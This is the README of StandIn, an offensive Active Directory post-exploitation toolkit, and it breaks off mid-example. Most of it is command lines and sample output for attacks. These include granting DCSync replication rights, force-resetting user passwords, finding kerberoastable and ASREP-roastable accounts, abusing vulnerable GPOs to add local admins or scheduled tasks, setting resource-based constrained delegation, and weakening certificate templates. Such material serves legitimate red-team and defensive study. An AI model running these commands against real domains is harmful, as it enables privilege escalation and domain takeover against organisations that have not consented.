

# StandIn

StandIn is a small AD post-compromise toolkit. StandIn came about because recently at [xforcered](https://github.com/xforcered) we needed a .NET native solution to perform resource based constrained delegation. However, StandIn quickly ballooned to include a number of comfort features.

I want to continue developing StandIn to teach myself more about Directory Services programming and to hopefully expand a tool which fits in to the AD post-exploitation toolchain.

# Roadmap

#### Contributing

Contributions are most welcome. Please ensure pull requests include the following items: description of the functionality, brief technical explanation and sample output.

Do you have something you want to see added to StandIn but don't have a PR? Please open a ticket and describe the functionality as best as possible.

#### ToDo's

The following items are currently on the radar for implementation in subsequent versions of StandIn.

- Domain share enumeration. This can be split out into two parts, (1) finding and getting a unique list based on user home directories / script paths / profile paths and (2) querying fTDfs / msDFS-Linkv2 objects.
- Finding and parsing GPO's to map users to host local groups.
- GPO -> OU & OU -> GPO.
- Rewrite policy function probably.
- Adding optional JSON/XML output for some functions to help with scripting.
- Code needs a re-factor, better modularized functions and split out into different classes.

# Subject References

- An ACE up the sleeve (by [@_wald0](https://twitter.com/_wald0) & [@harmj0y](https://twitter.com/harmj0y)) - [here](https://www.blackhat.com/docs/us-17/wednesday/us-17-Robbins-An-ACE-Up-The-Sleeve-Designing-Active-Directory-DACL-Backdoors-wp.pdf)
- Kerberoasting (by [@_xpn_](https://twitter.com/_xpn_)) - [here](https://blog.xpnsec.com/kerberos-attacks-part-1/)
- Roasting AS-REPs (by [@harmj0y](https://twitter.com/harmj0y)) - [here](https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/)
- Kerberos Unconstrained Delegation (by [@spotheplanet](https://twitter.com/spotheplanet)) - [here](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation)
- S4U2Pwnage (by [@harmj0y](https://twitter.com/harmj0y)) - [here](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/)
- Resource-based Constrained Delegation (by [@spotheplanet](https://twitter.com/spotheplanet)) - [here](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution)
- Rubeus - [here](https://github.com/GhostPack/Rubeus)
- Powerview - [here](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)
- Powermad (by [@kevin_robertson](https://twitter.com/kevin_robertson)) - [here](https://github.com/Kevin-Robertson/Powermad)
- SharpGPOAbuse (by [@den_n1s](https://twitter.com/den_n1s) & [@pkb1s](https://twitter.com/pkb1s)) - [here](https://github.com/FSecureLABS/SharpGPOAbuse)
- adidnsdump (by [@_dirkjan](https://twitter.com/_dirkjan)) - [here](https://github.com/dirkjanm/adidnsdump)
- Certified Pre-Owned (by [@harmj0y](https://twitter.com/harmj0y) & [@tifkin_](https://twitter.com/tifkin_)) - [here](https://posts.specterops.io/certified-pre-owned-d95910965cd2)

# Index
- [Help](#help)
- [LDAP Object Operations](#ldap-object-operations)
    - [Raw LDAP](#raw-ldap)
    - [Get object](#get-object)
    - [Get object access permissions](#get-object-access-permissions)
    - [Grant object access permission](#grant-object-access-permission)
    - [Set object password](#set-object-password)
    - [Add ASREP to object flags](#addremove-asrep-from-object-flags)
    - [Remove ASREP from object flags](#addremove-asrep-from-object-flags)
- [SID](#sid)
- [ASREP](#asrep)
- [PASSWD_NOTREQD](#passwd_notreqd)
- [SPN](#spn)
    - [SPN Collection](#spn-collection)
    - [Set SPN](#set-spn)
- [Unconstrained / constrained / resource-based constrained delegation](#unconstrained--constrained--resource-based-constrained-delegation)
- [DC's](#dcs)
- [Trust](#trust)
- [GPO Operations](#gpo-operations)
    - [List GPO's](#list-gpos)
    - [GPO add local admin](#gpo-add-local-admin)
    - [GPO add user privilege](#gpo-add-user-privilege)
    - [GPO add immediate task](#gpo-add-immediate-task)
    - [GPO increase User / Computer version](#gpo-increase-user--computer-version)
- [Policy](#policy)
- [DNS](#dns)
- [Groups Operations](#groups-operations)
    - [List group membership](#list-group-membership)
    - [Add / remove user from group](#add--remove-user-from-group)
- [Machine Object Operations](#machine-object-operations)
    - [Create machine object](#create-machine-object)
    - [Disable machine object](#disable-machine-object)
    - [Delete machine object](#delete-machine-object)
    - [Add msDS-AllowedToActOnBehalfOfOtherIdentity](#add-msds-allowedtoactonbehalfofotheridentity)
    - [Remove msDS-AllowedToActOnBehalfOfOtherIdentity](#remove-msds-allowedtoactonbehalfofotheridentity)
- [Active Directory Certificate Services (ADCS)](#active-directory-certificate-services-adcs)
	- [List](#list)
	- [Client Authentication](#client-authentication)
	- [ENROLLEE_SUPPLIES_SUBJECT](#enrollee_supplies_subject)
	- [PEND_ALL_REQUESTS](#pend_all_requests)
	- [Change Owner](#change-owner)
	- [Add Write Permission](#add-write-permission)
	- [Add Certificate-Enrollment Permission](#add-certificate-enrollment-permission)
- [Detection](#detection)
- [Special Thanks](#special-thanks)

## Help

```
  __
 ( _/_   _//   ~b33f
__)/(//)(/(/)  v1.4


 >--~~--> Args? <--~~--<

--help          This help menu
--object        LDAP filter, e.g. samaccountname=HWest
--ldap          LDAP filter, can return result collection
--filter        Filter results, varies based on function
--limit         Limit results, varies based on function, defaults to 50
--computer      Machine name, e.g. Celephais-01
--group         samAccountName, e.g. "Necronomicon Admins"
--ntaccount     User name, e.g. "REDHOOK\UPickman"
--sid           Dependent on context
--grant         User name, e.g. "REDHOOK\KMason"
--guid          Rights GUID to add to object, e.g. 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
--domain        Domain name, e.g. REDHOOK
--user          User name
--pass          Password
--newpass       New password to set for object
--gpo           List group policy objects
--acl           Show ACL's for returned GPO's
--localadmin    Add samAccountName to BUILTIN\Administrators for vulnerable GPO
--setuserrights samAccountName for which to add token rights in a vulnerable GPO
--tasktype      Immediate task type (user/computer)
--taskname      Immediate task name
--author        Immediate task author
--command       Immediate task command
--args          Immediate task command args
--target        Optional, filter for DNS name or NTAccount
--targetsid     Optional, provider user SID
--increase      Increment either the user or computer GPO version number for the AD object
--policy        Reads some account/kerberos properties from the "Default Domain Policy"
--dns           Performs ADIDNS enumeration, supports wildcard filters
--legacy        Boolean, sets DNS seach root to legacy (CN=System)
--forest        Boolean, sets DNS seach root to forest (DC=ForestDnsZones)
--passnotreq    Boolean, list accounts that have PASSWD_NOTREQD set
--type          Rights type: GenericAll, GenericWrite, ResetPassword, WriteMembers, DCSync
--spn           Boolean, list kerberoastable accounts
--setspn        samAccountName for which to add/remove an SPN
--principal     Principal name to add to samAccountName (e.g. MSSQL/VermisMysteriis)
--delegation    Boolean, list accounts with unconstrained / constrained delegation
--asrep         Boolean, list ASREP roastable accounts
--dc            Boolean, list all domain controllers
--trust         Boolean, list all trust relationships
--adcs          List all CA's and all published templates
--clientauth    Boolean, modify ADCS template to add/remove "Client Authentication"
--ess           Boolean, modify ADCS template to add/remove "ENROLLEE_SUPPLIES_SUBJECT"
--pend          Boolean, modify ADCS template to add/remove "PEND_ALL_REQUESTS"
--owner         Boolean, modify ADCS template owner
--write         Boolean, modify ADCS template, add/remove WriteDacl/WriteOwner/WriteProperty permission for NtAccount
--enroll        Boolean, modify ADCS template, add/remove "Certificate-Enrollment" permission for NtAccount
--add           Boolean, context dependent group/spn/adcs
--remove        Boolean, context dependent msDS-AllowedToActOnBehalfOfOtherIdentity/group/adcs
--make          Boolean, make machine; ms-DS-MachineAccountQuota applies
--disable       Boolean, disable machine; should be the same user that created the machine
--access        Boolean, list access permissions for object
--delete        Boolean, delete machine from AD; requires elevated AD access

 >--~~--> Usage? <--~~--<

# Perform LDAP search
StandIn.exe --ldap "(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))"
StandIn.exe --ldap servicePrincipalName=* --domain redhook --user RFludd --pass Cl4vi$Alchemi4e --limit 10
StandIn.exe --ldap servicePrincipalName=* --filter "pwdlastset, distinguishedname, lastlogon" --limit 100

# Query object properties by LDAP filter
StandIn.exe --object "(&(samAccountType=805306368)(servicePrincipalName=*vermismysteriis.redhook.local*))"
StandIn.exe --object samaccountname=Celephais-01$ --domain redhook --user RFludd --pass Cl4vi$Alchemi4e
StandIn.exe --object samaccountname=Celephais-01$ --filter "pwdlastset, serviceprincipalname, objectsid"

# Query object access permissions, optionally filter by NTAccount
StandIn.exe --object "distinguishedname=DC=redhook,DC=local" --access
StandIn.exe --object samaccountname=Rllyeh$ --access --ntaccount "REDHOOK\EDerby"
StandIn.exe --object samaccountname=JCurwen --access --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Grant object access permissions
StandIn.exe --object "distinguishedname=DC=redhook,DC=local" --grant "REDHOOK\MBWillett" --type DCSync
StandIn.exe --object "distinguishedname=DC=redhook,DC=local" --grant "REDHOOK\MBWillett" --guid 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
StandIn.exe --object samaccountname=SomeTarget001$ --grant "REDHOOK\MBWillett" --type GenericWrite --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Set object password
StandIn.exe --object samaccountname=SomeTarget001$ --newpass "Arkh4mW1tch!"
StandIn.exe --object samaccountname=BJenkin --newpass "Dr34m1nTh3H#u$e" --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Add ASREP to userAccountControl flags
StandIn.exe --object samaccountname=HArmitage --asrep
StandIn.exe --object samaccountname=FMorgan --asrep --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Remove ASREP from userAccountControl flags
StandIn.exe --object samaccountname=TMalone --asrep --remove
StandIn.exe --object samaccountname=RSuydam --asrep  --remove --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Get a list of all ASREP roastable accounts
StandIn.exe --asrep
StandIn.exe --asrep --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Return GPO objects, optionally wildcard filter and get ACL's
StandIn.exe --gpo --limit 20
StandIn.exe --gpo --filter admin --domain redhook --user RFludd --pass Cl4vi$Alchemi4e
StandIn.exe --gpo --filter admin --acl --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Add samAccountName to BUILTIN\Administrators for vulnerable GPO
StandIn.exe --gpo --filter ArcanePolicy --localadmin JCurwen
StandIn.exe --gpo --filter ArcanePolicy --localadmin JCurwen --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Add token rights to samAccountName in a vulnerable GPO
StandIn.exe --gpo --filter ArcanePolicy --setuserrights JCurwen --grant "SeTcbPrivilege,SeDebugPrivilege"
StandIn.exe --gpo --filter ArcanePolicy --setuserrights JCurwen --grant SeLoadDriverPrivilege --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Add user/computer immediate task and optionally filter
StandIn.exe --gpo --filter ArcanePolicy --taskname LiberInvestigationis --tasktype computer --author "REDHOOK\JCurwen" --command "C:\Windows\System32\notepad.exe" --args "C:\Mysteriis\CultesDesGoules.txt"
StandIn.exe --gpo --filter ArcanePolicy --taskname LiberInvestigationis --tasktype computer --author "REDHOOK\JCurwen" --command "C:\Windows\System32\notepad.exe" --args "C:\Mysteriis\CultesDesGoules.txt" --target Rllyeh.redhook.local
StandIn.exe --gpo --filter ArcanePolicy --taskname LiberInvestigationis --tasktype user --author "REDHOOK\JCurwen" --command "C:\Windows\System32\notepad.exe" --args "C:\Mysteriis\CultesDesGoules.txt" --target "REDHOOK\RBloch" --targetsid S-1-5-21-315358687-3711474269-2098994107-1106
StandIn.exe --gpo --filter ArcanePolicy --taskname LiberInvestigationis --tasktype computer --author "REDHOOK\JCurwen" --command "C:\Windows\System32\notepad.exe" --args "C:\Mysteriis\CultesDesGoules.txt" --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Increment either the user or computer GPO version number for the AD object
StandIn.exe --gpo --filter ArcanePolicy --increase --tasktype user
StandIn.exe --gpo --filter ArcanePolicy --increase --tasktype computer --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Read Default Domain Policy
StandIn.exe --policy
StandIn.exe --policy --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Perform ADIDNS searches
StandIn.exe --dns --limit 20
StandIn.exe --dns --filter SQL --limit 10
StandIn.exe --dns --forest --domain redhook --user RFludd --pass Cl4vi$Alchemi4e
StandIn.exe --dns --legacy --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# List account that have PASSWD_NOTREQD set
StandIn.exe --passnotreq
StandIn.exe --passnotreq --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Get user and SID from either a SID or a samAccountName
StandIn.exe --sid JCurwen
StandIn.exe --sid S-1-5-21-315358687-3711474269-2098994107-1105 --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Get a list of all kerberoastable accounts
StandIn.exe --spn
StandIn.exe --spn --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Add/remove SPN from samAccountName
StandIn.exe --setspn RSuydam --principal MSSQL/VermisMysteriis --add
StandIn.exe --setspn RSuydam --principal MSSQL/VermisMysteriis --remove --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# List all accounts with unconstrained & constrained delegation privileges
StandIn.exe --delegation
StandIn.exe --delegation --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Get a list of all domain controllers
StandIn.exe --dc

# Get a list of all trust relationships in the current domain
StandIn.exe --trust

# List members of group or list user group membership
StandIn.exe --group Literarum
StandIn.exe --group "Magna Ultima" --domain redhook --user RFludd --pass Cl4vi$Alchemi4e
StandIn.exe --group JCurwen --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Add user to group
StandIn.exe --group "Dunwich Council" --ntaccount "REDHOOK\WWhateley" --add
StandIn.exe --group DAgon --ntaccount "REDHOOK\RCarter" --add --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Remove user from group
StandIn.exe --group "Dunwich Council" --ntaccount "REDHOOK\WWhateley" --remove
StandIn.exe --group DAgon --ntaccount "REDHOOK\RCarter" --remove --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# List CA's and all published templates, optionally wildcard filter on template name
StandIn.exe --adcs
StandIn.exe --adcs --filter Kingsport
StandIn.exe --adcs --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Add/remove "Client Authentication" from template pKIExtendedKeyUsage, filter should contain the exact name of the template
StandIn.exe --adcs --filter Kingsport --clientauth --add
StandIn.exe --adcs --filter Kingsport --clientauth --remove --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Add/remove "ENROLLEE_SUPPLIES_SUBJECT" from template msPKI-Certificate-Name-Flag, filter should contain the exact name of the template
StandIn.exe --adcs --filter Kingsport --ess --add
StandIn.exe --adcs --filter Kingsport --ess --remove --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Add/remove "PEND_ALL_REQUESTS" from template msPKI-Enrollment-Flag, filter should contain the exact name of the template
StandIn.exe --adcs --filter Kingsport --pend --add
StandIn.exe --adcs --filter Kingsport --pend --remove --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Change template owner, filter should contain the exact name of the template
StandIn.exe --adcs --filter Kingsport --ntaccount "REDHOOK\MBWillett" --owner
StandIn.exe --adcs --filter Kingsport --ntaccount "REDHOOK\MBWillett" --owner --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Grant NtAccount WriteDacl/WriteOwner/WriteProperty, filter should contain the exact name of the template
StandIn.exe --adcs --filter Kingsport --ntaccount "REDHOOK\MBWillett" --write --add
StandIn.exe --adcs --filter Kingsport --ntaccount "REDHOOK\MBWillett" --write --remove  --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Grant NtAccount "Certificate-Enrollment", filter should contain the exact name of the template
StandIn.exe --adcs --filter Kingsport --ntaccount "REDHOOK\MBWillett" --enroll --add
StandIn.exe --adcs --filter Kingsport --ntaccount "REDHOOK\MBWillett" --enroll --remove --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Create machine object
StandIn.exe --computer Innsmouth --make
StandIn.exe --computer Innsmouth --make --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Disable machine object
StandIn.exe --computer Arkham --disable
StandIn.exe --computer Arkham --disable --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Delete machine object
StandIn.exe --computer Danvers --delete
StandIn.exe --computer Danvers --delete --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Add msDS-AllowedToActOnBehalfOfOtherIdentity to machine object properties
StandIn.exe --computer Providence --sid S-1-5-21-1085031214-1563985344-725345543
StandIn.exe --computer Providence --sid S-1-5-21-1085031214-1563985344-725345543 --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Remove msDS-AllowedToActOnBehalfOfOtherIdentity from machine object properties
StandIn.exe --computer Miskatonic --remove
StandIn.exe --computer Miskatonic --remove --domain redhook --user RFludd --pass Cl4vi$Alchemi4e
```

## LDAP Object Operations
All `--object` operations expect that the LDAP filter returns a single object and will exit out if your query returns more. This is by design. If you wish to pull back an array of objects you should use `--ldap`.

### Raw LDAP

#### Use Case

> *Operationally, we may want to retrieve an array of AD object and optionally filter and/or limit the results and properties.*

#### Syntax

Get all properties of the resolved objects. Queries can be simple matches for a single property or complex LDAP filters. Optionally limit the results returned with `--limit`.

```
C:\> StandIn.exe --ldap "(&(displayName=*)(gpcfilesyspath=*))" --filter "gpcfilesyspath,versionnumber"

[?] Using DC : m-w16-dc01.main.redhook.local
[+] LDAP search result count : 3
    |_ Result limit          : 50

[?] Iterating result properties
    |_ Applying property filter => gpcfilesyspath,versionnumber

[?] Object   : CN={6AC1786C-016F-11D2-945F-00C04fB984F9}
    Path     : LDAP://CN={6AC1786C-016F-11D2-945F-00C04fB984F9},CN=Policies,CN=System,DC=redhook,DC=local
[+] versionnumber
    |_ User Version     : 0
    |_ Computer Version : 1
[+] gpcfilesyspath
    |_ \\redhook.local\sysvol\redhook.local\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}

[?] Object   : CN={31B2F340-016D-11D2-945F-00C04FB984F9}
    Path     : LDAP://CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=redhook,DC=local
[+] versionnumber
    |_ User Version     : 0
    |_ Computer Version : 11
[+] gpcfilesyspath
    |_ \\redhook.local\sysvol\redhook.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}

[?] Object   : CN={58890948-8DE3-4A39-8C40-F68004186693}
    Path     : LDAP://CN={58890948-8DE3-4A39-8C40-F68004186693},CN=Policies,CN=System,DC=redhook,DC=local
[+] versionnumber
    |_ User Version     : 2
    |_ Computer Version : 4
[+] gpcfilesyspath
    |_ \\redhook.local\SysVol\redhook.local\Policies\{58890948-8DE3-4A39-8C40-F68004186693}
```

### Get object

#### Use Case

> *Operationally, we may want to look at all of the properties of a specific object in AD. A common example would be to look at what groups a user account is member of or when a user account last authenticated to the domain.*

#### Syntax

Return the resolved object. Queries can be simple matches for a single property or complex LDAP filters. Optionally filter the properties you wish to pull back with `--filter`.

```
C:\> StandIn.exe --object samaccountname=m-10-1909-01$

[?] Using DC : m-w16-dc01.main.redhook.local
[?] Object   : CN=M-10-1909-01
    Path     : LDAP://CN=M-10-1909-01,OU=Workstations,OU=OCCULT,DC=main,DC=redhook,DC=local

[?] Iterating object properties

[+] logoncount
    |_ 360
[+] codepage
    |_ 0
[+] objectcategory
    |_ CN=Computer,CN=Schema,CN=Configuration,DC=main,DC=redhook,DC=local
[+] iscriticalsystemobject
    |_ False
[+] operatingsystem
    |_ Windows 10 Enterprise
[+] usnchanged
    |_ 195797
[+] instancetype
    |_ 4
[+] name
    |_ M-10-1909-01
[+] badpasswordtime
    |_ 0x0
[+] pwdlastset
    |_ 10/9/2020 4:42:02 PM UTC
[+] serviceprincipalname
    |_ TERMSRV/M-10-1909-01
    |_ TERMSRV/m-10-1909-01.main.redhook.local
    |_ WSMAN/m-10-1909-01
    |_ WSMAN/m-10-1909-01.main.redhook.local
    |_ RestrictedKrbHost/M-10-1909-01
    |_ HOST/M-10-1909-01
    |_ RestrictedKrbHost/m-10-1909-01.main.redhook.local
    |_ HOST/m-10-1909-01.main.redhook.local
[+] objectclass
    |_ top
    |_ person
    |_ organizationalPerson
    |_ user
    |_ computer
[+] badpwdcount
    |_ 0
[+] samaccounttype
    |_ SAM_MACHINE_ACCOUNT
[+] lastlogontimestamp
    |_ 11/1/2020 7:40:09 PM UTC
[+] usncreated
    |_ 31103
[+] objectguid
    |_ 17c80232-2ee6-47e1-9ab5-22c51c268cf0
[+] localpolicyflags
    |_ 0
[+] whencreated
    |_ 7/9/2020 4:59:55 PM
[+] adspath
    |_ LDAP://CN=M-10-1909-01,OU=Workstations,OU=OCCULT,DC=main,DC=redhook,DC=local
[+] useraccountcontrol
    |_ WORKSTATION_TRUST_ACCOUNT
[+] cn
    |_ M-10-1909-01
[+] countrycode
    |_ 0
[+] primarygroupid
    |_ 515
[+] whenchanged
    |_ 11/2/2020 7:59:32 PM
[+] operatingsystemversion
    |_ 10.0 (18363)
[+] dnshostname
    |_ m-10-1909-01.main.redhook.local
[+] dscorepropagationdata
    |_ 10/30/2020 6:56:30 PM
    |_ 10/25/2020 1:28:32 AM
    |_ 7/16/2020 2:15:26 PM
    |_ 7/15/2020 8:54:17 PM
    |_ 1/1/1601 12:04:17 AM
[+] lastlogon
    |_ 11/3/2020 10:21:11 AM UTC
[+] distinguishedname
    |_ CN=M-10-1909-01,OU=Workstations,OU=OCCULT,DC=main,DC=redhook,DC=local
[+] msds-supportedencryptiontypes
    |_ RC4_HMAC, AES128_CTS_HMAC_SHA1_96, AES256_CTS_HMAC_SHA1_96
[+] samaccountname
    |_ M-10-1909-01$
[+] objectsid
    |_ S-1-5-21-1293271031-3053586410-2290657902-1126
[+] lastlogoff
    |_ 0
[+] accountexpires
    |_ 0x7FFFFFFFFFFFFFFF
```

### Get object access permissions

#### Use Case

> *At certain stages of the engagement, the operator may want to resolve the access permissions for a specific object in AD. Many permissions can offer an operational avenue to expand access or achieve objectives. For instance, a WriteDacl permission on a group could allow the operator to grant him / her self permissions to add a new user to the group. Tools like [SharpHound](https://github.com/BloodHoundAD/SharpHound3) already, in many instances, reveal these Dacl weaknesses.*

#### Syntax

Retrieve the active directory rules that apply to the resolved object and translate any schema / rights GUID's to their friendly name. Optionally filter the results by an NTAccount name.

```
C:\>StandIn.exe --object samaccountname=m-10-1909-01$ --access

[?] Using DC : m-w19-dc01.main.redhook.local
[?] Object   : CN=M-10-1909-01
    Path     : LDAP://CN=M-10-1909-01,OU=Workstations,OU=OCCULT,DC=main,DC=redhook,DC=local

[+] Object properties
    |_ Owner : MAIN\domainjoiner
    |_ Group : MAIN\Domain Join

[+] Object access rules

[+] Identity --> NT AUTHORITY\SELF
    |_ Type       : Allow
    |_ Permission : CreateChild, DeleteChild
    |_ Object     : ANY

[+] Identity --> NT AUTHORITY\Authenticated Users
    |_ Type       : Allow
    |_ Permission : GenericRead
    |_ Object     : ANY
    
    [... Snip ...]

C:\> StandIn.exe --object samaccountname=m-10-1909-01$ --access --ntaccount "MAIN\domainjoiner"

[?] Using DC : m-w19-dc01.main.redhook.local
[?] Object   : CN=M-10-1909-01
    Path     : LDAP://CN=M-10-1909-01,OU=Workstations,OU=OCCULT,DC=main,DC=redhook,DC=local

[+] Object properties
    |_ Owner : MAIN\domainjoiner
    |_ Group : MAIN\Domain Join

[+] Object access rules

[+] Identity --> MAIN\domainjoiner
    |_ Type       : Allow
    |_ Permission : DeleteTree, ExtendedRight, Delete, GenericRead
    |_ Object     : ANY

[+] Identity --> MAIN\domainjoiner
    |_ Type       : Allow
    |_ Permission : WriteProperty
    |_ Object     : User-Account-Restrictions

[+] Identity --> MAIN\domainjoiner
    |_ Type       : Allow
    |_ Permission : Self
    |_ Object     : servicePrincipalName

[+] Identity --> MAIN\domainjoiner
    |_ Type       : Allow
    |_ Permission : Self
    |_ Object     : dNSHostName

[+] Identity --> MAIN\domainjoiner
    |_ Type       : Allow
    |_ Permission : WriteProperty
    |_ Object     : sAMAccountName

[+] Identity --> MAIN\domainjoiner
    |_ Type       : Allow
    |_ Permission : WriteProperty
    |_ Object     : displayName

[+] Identity --> MAIN\domainjoiner
    |_ Type       : Allow
    |_ Permission : WriteProperty
    |_ Object     : description

[+] Identity --> MAIN\domainjoiner
    |_ Type       : Allow
    |_ Permission : WriteProperty
    |_ Object     : User-Logon

[+] Identity --> MAIN\domainjoiner
    |_ Type       : Allow
    |_ Permission : Self
    |_ Object     : DS-Validated-Write-Computer
```

### Grant object access permission

#### Use Case

> *With the appropriate rights, the operator can grant an NTAccount special permissions over a specific object in AD. For instance, if an operator has GenericAll privileges over a user account they can grant themselves or a 3rd party NTAccount permission to change the user’s password without knowing the current password.*

#### Syntax

Add permission to the resolved object for a specified NTAccount. StandIn supports a small set of pre-defined privileges (GenericAll, GenericWrite, ResetPassword, WriteMembers, DCSync) but it also allows operators to specify a custom rights guid using the `--guid` flag.

```
C:\> whoami
main\s4uuser

C:\> StandIn.exe --group lowPrivButMachineAccess

[?] Using DC : m-w19-dc01.main.redhook.local
[?] Group    : lowPrivButMachineAccess
    GUID     : 37e3d957-af52-4cc6-8808-56330f8ec882

[+] Members

[?] Path           : LDAP://CN=s4uUser,OU=Users,OU=OCCULT,DC=main,DC=redhook,DC=local
    samAccountName : s4uUser
    Type           : User
    SID            : S-1-5-21-1293271031-3053586410-2290657902-1197
    
C:\> StandIn.exe --object "distinguishedname=DC=main,DC=redhook,DC=local" --access --ntaccount "MAIN\lowPrivButMachineAccess"

[?] Using DC : m-w19-dc01.main.redhook.local
[?] Object   : DC=main
    Path     : LDAP://DC=main,DC=redhook,DC=local

[+] Object properties
    |_ Owner : BUILTIN\Administrators
    |_ Group : BUILTIN\Administrators

[+] Object access rules

[+] Identity --> MAIN\lowPrivButMachineAccess
    |_ Type       : Allow
    |_ Permission : WriteDacl
    |_ Object     : ANY

C:\> StandIn.exe --object "distinguishedname=DC=main,DC=redhook,DC=local" --grant "MAIN\s4uuser" --type DCSync

[?] Using DC : m-w19-dc01.main.redhook.local
[?] Object   : DC=main
    Path     : LDAP://DC=main,DC=redhook,DC=local

[+] Object properties
    |_ Owner : BUILTIN\Administrators
    |_ Group : BUILTIN\Administrators

[+] Set object access rules
    |_ Success, added dcsync privileges to object for MAIN\s4uuser

C:\> StandIn.exe --object "distinguishedname=DC=main,DC=redhook,DC=local" --access --ntaccount "MAIN\s4uUser"

[?] Using DC : m-w19-dc01.main.redhook.local
[?] Object   : DC=main
    Path     : LDAP://DC=main,DC=redhook,DC=local

[+] Object properties
    |_ Owner : BUILTIN\Administrators
    |_ Group : BUILTIN\Administrators

[+] Object access rules

[+] Identity --> MAIN\s4uUser
    |_ Type       : Allow
    |_ Permission : ExtendedRight
    |_ Object     : DS-Replication-Get-Changes-All

[+] Identity --> MAIN\s4uUser
    |_ Type       : Allow
    |_ Permission : ExtendedRight
    |_ Object     : DS-Replication-Get-Changes

[+] Identity --> MAIN\s4uUser
    |_ Type       : Allow
    |_ Permission : ExtendedRight
    |_ Object     : DS-Replication-Get-Changes-In-Filtered-Set
```

### Set object password

#### Use Case

> *If the operator has `User-Force-Change-Password` permissions over a user object they can change the password for that user account without knowing the current password. This action is destructive as the user will no longer be able to authenticate which may raise alarm bells.*

#### Syntax

Set the resolved object's password without knowing the current password.

```
C:\> whoami
main\s4uuser

C:\> StandIn.exe --object "samaccountname=user005" --access --ntaccount "MAIN\lowPrivButMachineAccess"

[?] Using DC : m-w16-dc01.main.redhook.local
[?] Object   : CN=User 005
    Path     : LDAP://CN=User 005,OU=Users,OU=OCCULT,DC=main,DC=redhook,DC=local

[+] Object properties
    |_ Owner : MAIN\Domain Admins
    |_ Group : MAIN\Domain Admins

[+] Object access rules

[+] Identity --> MAIN\lowPrivButMachineAccess
    |_ Type       : Allow
    |_ Permission : WriteDacl
    |_ Object     : ANY

C:\> StandIn.exe --object "samaccountname=user005" --grant "MAIN\s4uuser" --type resetpassword

[?] Using DC : m-w16-dc01.main.redhook.local
[?] Object   : CN=User 005
    Path     : LDAP://CN=User 005,OU=Users,OU=OCCULT,DC=main,DC=redhook,DC=local

[+] Object properties
    |_ Owner : MAIN\Domain Admins
    |_ Group : MAIN\Domain Admins

[+] Set object access rules
    |_ Success, added resetpassword privileges to object for MAIN\s4uuser

C:\> StandIn.exe --object "samaccountname=user005" --access --ntaccount "MAIN\s4uUser"

[?] Using DC : m-w16-dc01.main.redhook.local
[?] Object   : CN=User 005
    Path     : LDAP://CN=User 005,OU=Users,OU=OCCULT,DC=main,DC=redhook,DC=local

[+] Object properties
    |_ Owner : MAIN\Domain Admins
    |_ Group : MAIN\Domain Admins

[+] Object access rules

